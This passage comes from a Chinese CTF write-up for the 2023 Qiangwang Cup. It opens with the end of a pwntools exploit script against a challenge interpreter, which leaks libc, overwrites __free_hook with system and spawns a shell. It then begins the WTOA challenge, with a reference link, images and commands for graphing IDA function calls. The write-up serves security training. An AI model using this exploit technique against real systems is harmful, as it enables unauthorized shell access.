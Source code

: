 ```python
read(0,p7,0x8);
p10=malloc(0x100);
read(0,p10,0x8);
p11=malloc(0x100);
read(0,p11,0x8);
free(p10);
}"""
ru("Code size: ")

sl(str(int(len(payload))))

ru("Please give me the code to interpret:")
s(payload)

libc_base=uu64()-0x3ebca0
lg("libc_base")
pause()
s(p64(libc_base+libc.sym['__free_hook']))
pause()
s("/bin/sh\x00")
pause()
s(p64(libc_base+libc.sym['system']))
p.interactive()
```

![image-20231217163443564](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111731.png)

### WTOA

参考链接：https://www.xp0int.top/posts/2023/12/18/2023-%E5%BC%BA%E7%BD%91%E6%9D%AF-Quals-Writeup-By-Xp0int/#11-chatting

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111732.png)

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111733.png)

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111734.png)

从ida 中的function call 中猜测main函数为function[17]

ida 导出function cal

先导出为test.gdl

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111735.jpeg)

ubuntu 执行

`sudo apt-get install cflow graphviz` 

`sudo apt install libgraph-easy-perl`

`graph-easy --input=test.gdl --as_dot -o test.dot`
